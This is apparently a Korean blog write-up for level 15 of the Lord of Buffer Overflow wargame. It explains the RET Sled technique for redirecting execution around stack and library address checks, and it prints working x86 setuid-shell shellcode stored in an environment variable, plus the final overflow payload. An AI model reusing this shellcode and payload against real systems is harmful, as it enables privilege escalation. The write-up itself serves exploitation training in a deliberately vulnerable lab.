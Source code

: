```yaml
---
title:  "[LOB] level 15: giant >> assassin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-26 11:00:38

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 15

**giant / one step closer**

assassin.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147405437-fb886ea9-5a59-487b-b4ac-8831461cb4f8.png)

argv[1][47] == \xbf : 스택영역 사용불가  
argv[1][47] == \x40 : 라이브러리 사용불가  
memset(buffer,0,44) : buffer+sfp 사용불가

이번 레벨에서는 RET Sled 공격기법을 사용한다  
RET Sled는 Return addressdp RET명령어의 주소를 덮어씌워서 RET명령을 연속적으로 호출하여 콜스택을 조작한 것을 말한다

leave명령으로 인해 sfp값이 ebp안으로 들어가고, esp는 ret를 가리킬것이다. 그 뒤에 ret가 실행되면서 RET안에 값이 eip에 pop되고, 그 값으로 jmp(이동)하게 된다.  
지금까지는 ret에 원하는 주소값을 써서 그 값에 접근했다면, RET Sled는 ret에 우리가 원하는 주소값을 쓰지 못하는 경우이다

ret가 하는일이 pop eip, jmp eip인데  
리턴주소를 다시 ret명령어의 주소로 덮게되면 main함수의 에필로그가  
leave  
ret  
ret  
가 되고, pop eip가 한번 더 되면서 기존 리턴주소가 있던 자리에서 다음 4바이트에 있는 주소로 eip가 조작될수 있다  

페이로드 구상도:  
>`python -c 'print "A"*44+"ret주소"+"쉘코드"'

쉘코드는 환경변수를 이용
> export EGG=\`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/147405943-8aa796a1-d9bd-42e6-bd25-eca225bb27d5.png)  
ret주소: 0x804851e  

쉘코드  
![image](https://user-images.githubusercontent.com/69203345/147405976-2d9019a9-2339-4102-b843-cd2d41e3d9a6.png)

페이로드
>\`python -c 'print "A"*44+"\x1e\x85\x04\x08"+"\x99\xfe\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147406014-2415a6a1-784d-4314-bd4c-0c3a0a4f3692.png)
---
RET Sled는 NX bit가 걸려있지 않으면서, 지역변수를 사용할 수 없을때와 같은 상황에서 유용하게 사용